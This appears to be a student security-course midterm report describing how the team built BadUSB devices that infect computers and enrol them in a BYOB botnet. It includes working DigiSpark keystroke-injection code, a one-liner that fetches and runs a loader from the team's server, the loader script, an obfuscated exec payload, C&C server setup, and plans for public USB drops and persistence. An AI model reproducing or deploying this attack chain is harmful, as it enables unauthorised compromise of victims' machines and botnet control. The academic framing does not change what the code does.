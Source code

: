 # CSUS CSC154: Project Midterm Report

## Objective  
The objective of this project is to create BadUSB devices, that upon plugin, infect victim computers with malware configured to join a botnet.

### BadUSB  
To create our BadUSB devices we'll be using the [DigiSpark](http://digistump.com/products/1) development board by [Digistump](http://digistump.com/). These devices will be recognized as USB keyboards by the victims' machines, and will execute keystrokes to deliver our payload.

### Botnet  
For our botnet we're currently still exploring a handful of open source frameworks. The leading contender at the moment is [Build Your Own Botnet](https://github.com/malwaredllc/byob). Other frameworks we're looking into include [GoBot2](https://github.com/SaturnsVoid/GoBot2), [UBoat](https://github.com/Souhardya/UBoat), and [Loki](https://github.com/Pure-L0G1C/Loki). There may be other frameworks we explore as they're discovered. Our ultimate goal is an easily deployed and managed *command and control server*, and the ability to generate cross platform compatible clients.


## Progress  

### DigiSpark  
Thus far, we've purchased our BadUSB (DigiSpark) devices via Amazon. We have 12 of these devices spread across our members. They cost about $3 dollars each. 

![amazon](./images/amazon.png)
**Figure 1:** DigiSpark boards on Amazon.

In order to program our USB devices we've installed the [Arduino IDE](https://www.arduino.cc/en/Main/Software).  
![arduino_download](./images/arduino_download.png)
**Figure 2:** Download the Arduino IDE.

We've then configured the Arduino IDE to include the DigiSpark board, so that we may use the `DigiKeyboard.h` library.   
![digistump_json](./images/digistump_json.png)
**Figure 3:** Add DigiStump board manager url to configuration.

![digistump_boardmanager](./images/digistump_boardmanager.png)
**Figure 4:** Board manager downloading DigiStump's board libraries.

![digistump_default](./images/digistump_setboard.png)
**Figure 5:** Set board to Digispark Default.

The following code is what we've developed thus far to infect Linux machines upon plugin.

```c
#include "DigiKeyboard.h"


/***
 * 
 * This is an attack for Linux machines. It opens up a terminal window. It then downloads the loader, sets it to executable,
 * executes it, and closes the terminal window.
 * 
 ***/

void setup() {
  DigiKeyboard.delay(2000);
  DigiKeyboard.sendKeyStroke(KEY_T , MOD_CONTROL_LEFT | MOD_ALT_LEFT);
  DigiKeyboard.delay(600);
  DigiKeyboard.print("nohup wget https://sheep.casa/payloads/linux_loader -P /tmp && nohup chmod +x /tmp/linux_loader && nohup /tmp/linux_loader & exit");
  DigiKeyboard.delay(200);
  DigiKeyboard.sendKeyStroke(KEY_ENTER);
  DigiKeyboard.delay(1000);
}

void loop() {}
```

As you can see above, the code delays for two seconds to allow the machine to register the device. After that it executes keystrokes to open up the terminal, and waits .6 seconds. Next it executes shell commands to download our bash script called `linux_loader` from the server. It then sets the script to executable, and executes it as a background process before exiting.

The code for our `linux_loader` and `linux_payload.py` can be found in the section below.

### Command and Control Server  
* [Digital Ocean](https://digitalocean.com)
* [Domain Name](https://sheep.casa)
* [BYOB](https://github.com/malwaredllc/byob)


We've created a VPS on Digital Ocean to run our C&C server. We're using an Ubuntu 18.04 droplet at the cost of $5 per month. Additionally, we've purchased the domain `sheep.casa`, and directed it towards our C&C server.

![digitalocean](./images/digitalocean.png)
**Figure 6:** Botnet C&C server droplet on Digital Ocean.

![sheep](./images/sheep.png)
**Figure 7:** ASCII sheep, just for fun.



The botnet framework we're currently using (BYOB) was installed via `git clone git@github.com:malwaredllc/byob.git && cd ./byob/byob && pip install -r requirements.txt &&  mv ../../byob /opt/`. This clones the repository, installs the required python modules, and moves the directory to into `/opt`.  

To launch the botnet we've created a bash script setting the host to `sheep.casa` and the listening port to `1337`. This script is placed in the `/root` directory. 

```bash
#!/bin/bash
cd /opt/byob/byob && python server.py --port 1337
```

![boot_BYOB](./images/boot_BYOB.png)
**Figure 8:** Botnet server running, no current sessions.



### Payloads  

#### Loader
Our BadUSB attack downloads and executes the loader script. For our attack on Linux machines this is a bash script called `linux_loader`, which can be found below.

```bash
#!/bin/bash
nohup wget https://sheep.casa/payloads/linux_payload.py -P /tmp && python /tmp/linux_payload.py
```

The loader script downloads our python payload and executes it to join our botnet. This script is run in the background so that the terminal window is not present while the botnet client (payload) is running.

#### Python Payload

A payload is generated via BYOB's `client.py` script. We've generated our Linux payload by issuing `python client.py --name linux_payload --encrypt --compress --freeze sheep.casa 1337`.

![payload_generated](./images/payload_generated.png)
**Figure 9:** Generating our python payload.

In order to host our payloads, we've installed Apache 2 on the C&C server. In a real world attack this would be pretty bad practice, but it's a matter of convenience for us. The payload generated above was moved from BYOB's directory to `/var/www/html/payloads`. This is where our victims will download the payload from.

![payload_directory](./images/payload_directory.png)
**Figure 10:** `/payloads` directory hosting our malicious files.


Below is our `linux_payload.py` file generated by BYOB.  

```python
import sys,zlib,base64,marshal,json,urllib
if sys.version_info[0] > 2:
    from urllib import request
urlopen = urllib.request.urlopen if sys.version_info[0] > 2 else urllib.urlopen
exec(eval(marshal.loads(zlib.decompress(base64.b64decode('eJwrtmBgYCgtyskvSM3TUM8oKSmw0tcvzkhNLdBLTixOtDI0NrYACpQkpqcWFesXJCfqFVSqa+oVpSamaGgCAFaFE3g=')))))
```


## Example	
Below is an example of a client connecting to the C&C server. This is actually Ryan's laptop connecting, after plugging the BadUSB device into it. 

![infected](./images/infected.png)
**Figure 11:** Session on x at wartop (Ryan's Laptop).



## Todo
We've yet to configure our BadUSB devices to infect Windows or OSX machines. Additionally, we need to develop payloads for Windows and OSX to deliver via our BadUSB devices once they're configured. Across the team we should already have computers running each OS to begin our development. 

Ideally, the same BadUSB device would be able to infect Windows, OSX, and Linux. However, we're still uncertain that this is technically achievable given the way USB functions. Currently we do not have knowledge of how to detect which operating system a victim's computer is running. We may need to configure different devices to be plugged in depending on the victim's machine. However, we will still explore how one device may be used to infect all OS(s). An option we're exploring is simply loading all of our payloads onto one device, and attempting to execute each of them quietly until the machine is infected.

A different device per OS would be perfectly acceptable in an attack scenario in which the attacker has physical access to the victim's machine. The devices are cheap and small, so carrying three of them should be no issue. However, for attack scenarios in which the BadUSB device is left in a public place for a victim to find (disguised as a lost flash drive), the ability to infect any OS would greatly improve the success rate.

Lastly, once a victim is initially infected, we'd like to keep them infected. This means we're exploring how to add our payloads to run on startup, but without root/admin privileges this may not be feasible. 

